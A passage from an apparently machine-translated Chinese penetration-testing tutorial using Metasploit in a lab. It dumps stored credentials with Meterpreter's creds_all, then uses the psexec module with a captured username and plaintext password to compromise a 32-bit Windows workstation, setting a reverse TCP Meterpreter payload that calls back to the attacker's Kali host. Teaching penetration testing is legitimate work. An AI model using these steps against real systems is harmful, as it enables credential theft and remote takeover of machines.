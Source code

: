 使用`creds_all`命令将获得`msv`、`wdigest`、`tspkg`和`kerberos`凭证。它基本上是机器上所有保存或存储的凭证的转储。请注意，我们从最近登录到系统的域用户捕获了明文域凭据：

![](Images/c71f6cf4-9aa4-439a-8640-58270f1fcbbe.png)

因此，一个下来，并与凭据击中域控制器。

键入以下内容以退出 MeterMeter 会话，而不关闭会话：

```
background
sessions # This will show you the session is still running.  
```

![](Images/23125dc2-375c-408f-9b62-af31c2645e21.png)

# 开发 32 位系统

在前面的部分中，我们使用标准的 EternalBlue 漏洞攻击了 64 位机器。现在让我们使用`psexec`模块来折衷一个 32 位系统。我们正在使用此模块，因为我们从上次攻击中收集了凭据。这一次，我们正在寻找网络上的一个工作站。工作站通常由许多不同的人使用，因此这台机器上应该有许多存储的凭据。我们拥有的凭据越多，访问权限就越大。要使用此模块，请键入以下内容：

```
use exploit/windows/smb/psexec
show options # To see the module's options.  
```

我们需要加载与之前相同的选项，但我们将攻击`172.16.42.173 \\WIN7-01`：

```
set RHOST 172.16.42.173 # Set the victim host.
set SMBDomain LAB1 # Set the domain.
set SMBUser fflintstone # The captured username
set SMBPass CatKeeper! # The captured clear text credentials (This can be a hash!)
show options # To check your settings.  
```

接下来，我们需要选择一个有效负载，因此运行以下命令以查看可用的有效负载：

```
show payloads  
```

在上一次攻击中，当我们运行此命令时，我们只看到 64 位有效负载。这一次，我们可以选择 32 位和 64 位的有效负载。WIN7-01 是 32 位的，因此我们需要选择适当的有效负载：

```
set PAYLOAD windows/meterpreter/reverse_tcp 
```

您会注意到，这是同一类型的反向 TCP 负载，但没有在其命令行中显示 x64。这是一个 32 位系统。

如果您之前没有全局设置您的`LHOST`（您的 Kali 机器），您现在需要设置它：

```
set LHOST 172.16.42.140 # This sets the local host. Use setg to set this value globally. 
```

**Hacker's tip**:
Metasploit will automatically try to set up the `LHOST` interface for exploits. This can create a problem if the Kali machine is connected to two or more networks. The exploit handler may connect to the wrong network causing the exploit to fail. Normally, when running Metasploit, after entering into my workspace, I go ahead and globally set the `LHOST` interface using the `setg` global option to the local host.
